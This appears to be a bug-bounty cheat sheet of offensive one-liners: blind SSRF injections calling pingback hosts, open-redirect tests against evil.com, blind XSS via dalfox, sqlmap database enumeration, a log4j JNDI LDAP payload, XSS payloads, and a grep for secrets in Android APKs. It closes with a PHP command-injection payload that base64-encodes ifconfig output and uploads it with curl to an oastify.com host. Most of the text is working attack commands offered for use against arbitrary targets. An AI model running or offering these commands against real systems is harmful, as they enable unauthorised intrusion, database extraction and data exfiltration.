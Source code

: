 # Blind SSRF Oneliner(X-Forwarded-Host):

`echo "testphp.vulnweb.com"|assetfinder|httprobe|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

`echo "testphp.vulnweb.com"|assetfinder|httpx|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

# Blind SSRF Oneliner:

`cat wayback.txt|gf ssrf |qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

`cat wayback.txt|gf ssrf |grep -a -i \=http|qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

# Open Redirect Oneliner:

`cat waybackurls_result.txt|grep -a -i \=http|qsreplace 'http://evil.com'|while read host do;do curl -s -L $host -I|grep "evil.com" && echo "$host \033[0;31m[+]VULNERABLE-TO-OPEN-REDIRECT-ATTACK\n";done`

# Blind XSS Oneliner:

`echo testphp.vulnweb.com|gau -subs|grep "https://" |grep -v "png\|jpg\|css\|js\|gif\|txt"|grep "="|uro|dalfox pipe --deep-domxss --multicast --blind akshayravi0479.xss.ht`

# Content Discovery With Dirsearch Oneliner:

`dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u http://target`

# SQLI Oneliner With Sqlmap:
```
1 subfinder -d target.com|tee -a domains.txt
2 cat domains.txt|httpx|tee -a urls-alive.txt
3 cat urls-alive.txt|waybackurls|tee -a urls-check.txt
4 gf sqli urls-check.txt >> sql.url
5 sqlmap -m sql.url --dbs --batch
```

# CVE-2021-4428 log4j Oneliner With User-Agent Payload:

`while read url; do log4=$(curl -s -L $url -H User-Agent: "$\{jndi:ldap://your-pingback-client-url.com}");echo -e "$url -> User-Agent: Fired";done`

# Scan Ports and Vulnerabilities CVE using nrich

```
https://gitlab.com/shodan-public/nrich
https://github.com/projectdiscovery/dnsx
```

![nrich](https://user-images.githubusercontent.com/58636452/157049702-6afd8a8a-5858-42d7-9ef4-3d94b650d69c.jpg)

# Open Redirect:
```
https://target[.]com///google[.]com/  --> 404 Not found
https://target[.]com///google[.]com/?qwerty  --> Redirects to google[.]com
```
# XSS Scanner

```
echo https://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```

# Favicon Hash Finder python script:
```
import mmh3,requests,codecs,sys,urllib3

urllib3.disable_warnings()

if len(sys.argv) == 1:
	print("[!]Please provide a valid URL, If you are facing some issue please add http:// or https:// befor the url")
	print("[+]Example: python3 Hash.py https://www.google.com/favicon.ico")
	exit()

response =requests.get(sys.argv[1], verify=False)
favicon = codecs.encode(response.content,'base64')
hash= mmh3.hash(favicon)
print('[+]shodan search query: http.favicon.hash:'+str(hash))

```
# XSS Payloads:

```
xss%27;eval.call`${%27alert\x28window.origin\x29%27}`;//
"/><details/open/ontoggle=promt(1)>

"onfocus="alert(1)"autofocus="abc
```

# One liner to extract sensitive info from android apk
```
grep -EHirn "accesskeyladmin|aes|api_keylapikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/

```

# Burpsuite Scope Generator:
`https://xcapri.github.io/scopegen/index.html`

# PHP rce payload

```
.&'\"`0echo+$(ifconfig+|+base64)+|+curl+-s+-X+POST+-T+-+$(uname).v3zxrdr5475zf73sgt24cv8zlqrhf73w.oastify.com.&`'
```
